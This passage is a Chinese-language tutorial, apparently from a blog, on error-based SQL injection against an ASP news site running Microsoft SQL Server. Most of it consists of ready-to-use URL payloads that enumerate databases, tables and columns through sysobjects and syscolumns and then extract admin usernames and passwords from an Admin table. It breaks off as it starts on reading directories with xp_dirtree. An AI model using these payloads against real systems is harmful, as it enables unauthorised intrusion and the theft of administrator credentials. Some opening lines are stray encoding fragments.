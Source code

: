 %20 - &amp;apos; &amp;apos;

%2F - &amp;apos;/&amp;apos;

我只能说这些sql语句构造得是相当的巧妙啊，我开始纳闷了，为啥非要用子查询呢。于是我直接用

Select Top X dbid,name from [master].[dbo].[sysdatabases] order by [dbid]

当X为1,也就是返回第一个的时候，是没有问题的，返回了master,但是X为2的时候就出现错误：

&quot;子查询返回的值多于一个。当子查询跟随在 =、!=、&lt;、&lt;=、&gt;、&gt;= 之后，或子查询用作表达式时，这种情况是不允许的。&quot;

这个时候子查询就起到了关键作用。还有开始不知道T是啥玩意，后来才知道sqlserver子查询必须要起一个别名,T就是那个别名，然后把查询的语句继续和0比较报错 这样就暴出了所有的数据库名。

第一个select count(1)返回数据库数量。

接下来是猜解表名，假设我们当前的数据库是news，那么首先猜解数据库的表的数量：

news_show.asp?id=15618 And (Select char(124)+Cast(Count(1) as varchar(8000))+char(124) From news..sysobjects where xtype=0×55)&gt;0

xtype的为数据表类型，0×55就是U,就是用户表。其他的参见这里有详细的解释。

然后分别列出表名：

news_show.asp?id=15618 And (Select Top 1 cast(name as nvarchar(4000)) from (Select Top 1 id,name from [news]..[sysobjects] Where xtype=0×55 order by id) T order by id desc)&gt;0

修改第二个Top 1为1到表数就可以了。

然后是猜解列名，假设要猜解的表为Admin，首先得到表在sysobjects中存储的唯一id：

news_show.asp?id=15618 And (Select Top 1 cast(id as nvarchar(20)) from [news].[dbo].[sysobjects] where name=&amp;apos;Admin&amp;apos;)&gt;0

猜解表名，id就是上面查询出来Admin表的id。

news_show.asp?id=15618 And (Select Top 1 cast(name as nvarchar(4000))+char(124) from (Select Top 1 colid,name From [news].[dbo].[syscolumns] Where id = 1993058136 Order by colid) T Order by colid desc)&gt;0

假设猜解出来的列名有id,AdminName,AdminPassword,AdminPower,Userid,ct

假设只猜解AdminName和AdminPassword的值

首先查看Admin表有多少条记录：

news_show.asp?id=15618 And (Select Cast(Count([AdminName]) as nvarchar(4000))+char(124) From [news]..[Admin] Where 1=1)&gt;0

返回第一列数据：

news_show.asp?id=15618 And (Select Top 1 isNull(cast([AdminName] as nvarchar(4000)),char(32)) char(124) isNull(cast([AdminPassword] as nvarchar(4000)),char(32)) From (Select Top 1 [AdminName],[AdminPassword] From [news]..[Admin] Where 1=1 Order by [AdminName]) T Order by [AdminName] Desc)&gt;0

isNull是判定数据是否为空，为空就返回后面那个char(32)的值也就是空格-&gt;&amp;apos; &amp;apos; 。

后面的以此类推。

【读取目录--xp_dirtree】

drop掉表，然后在当前数据库创建一个表，有三个字段subdirectory,depth,file
